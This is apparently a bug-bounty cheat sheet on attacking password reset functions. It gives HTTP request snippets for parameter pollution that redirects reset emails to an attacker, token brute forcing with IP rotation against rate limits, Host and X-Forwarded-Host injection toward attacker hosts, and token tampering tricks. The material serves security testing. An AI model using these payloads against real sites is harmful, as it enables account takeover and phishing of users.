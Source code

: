 # Testing Password Reset Functionalities

## Guess/brute force password before clicking on reset link


Sometimes the password is reset to a guessable value (birthday date, username+id, etc) even if the reset procedure is not completed (reset link by email, otp, etc)..

So you can just click on reset password and then guess/brute that value.


## **Include your mail as a second parameter (you might receive the reset link)**
```
POST /reset
[...]
email=victim@tld.xyz&email=hacker@tld.xyz
```

## **Brute force reset token if it a numeric. You can use IP Rotator on Burpsuite to bypass rate limit in case it's IP based**

```
POST /reset
[...]
email=victim@tld.xyz&code=$BRUTE$
```

## **Try to use your reset token on target's account**

```
POST /reset
[...]
email=victim@tld.xyz&code=$YOUR-TOKEN$
```

## **Host Header injection - change website.com to hacker.com (victim might receive the reset link with your host instead of the original website's)**

```
POST /reset
Host hacker.com
[...]
```

*If successful, your POC can contain a crafted link send to the victim, and your host is hosting a fake form that ask the victim for sensitive information.*

## **Try to figure out how the tokens are generated**

- Generated based on TimeStamp
- Generated based on the ID of the user
- Generated based on the email of the user

## **Email delimited with a comma**

```
POST /reset
[...]
email=victim@tld.xyz,attacker@mail.net
```

OR

```
POST /reset
[...]
email=victim@tld.xyz&bccattacker@email.com
```


## **Password reset token leakage via referer** - [POC on Hackerone](https://hackerone.com/reports/342693)

- Request for password reset
- Now check your email you will get your password reset link
- Now just copy the link and open you browser in private mode and paste the link (try disabling all your addons)
- Don't change the password yet. Click any external links like social media links, etc. I have clicked on Twitter
- Capture the request in burp.
- You will find reset token in referer header.


## Reset password - before clicking the link change your account's email

- Issue the reset. 
- But before using the token(from your email inbox), change your email on your account to the one of the victim.
- See if the reset tokens still works(use your imagination)

## Intercept reset request in burp and add more emails 

- Reset password.
- Click on reset link.
- Intercept in burp
- Try adding company emails, or victim email

	OR

- add a new field "password""example123" or "pass":"example123"
- you may end up resetting a user's password.

	
## **still nothing ??**

- Try to figure out what encoding is being used for password reset (eg. json).
- Search for disclosed reports on similar technology/keywords and go from there.


## don't know how to describe this

- Completely remove the token
- change it to 00000000...
- use null/nil value
- try expired token
- try an array of old tokens
- look for race conditions
- change 1 char at the begin/end to see if the token is evaluated
- use unicode char jutzu to spoof email address

- try victim@email.com&attacker@email.com use  %20 or | as separators
- try to register the same mail with different TLD (.eu,.net etc)
- don't add the domain kavish@
- try sqli bypass and wildcard or, %, *
- request smuggler?

- change request method (get, put, post etc) and/or content type (xml<>json) 
- match bad response and replace with good one
- use super long string

## More Tips

- **in JSON array** {"email":["victim@mail.tld","attacker@mail.tld"]}

- Try to add **X-Forwarded-Hostattacker.com**

- **Find emails** https://hunter.io
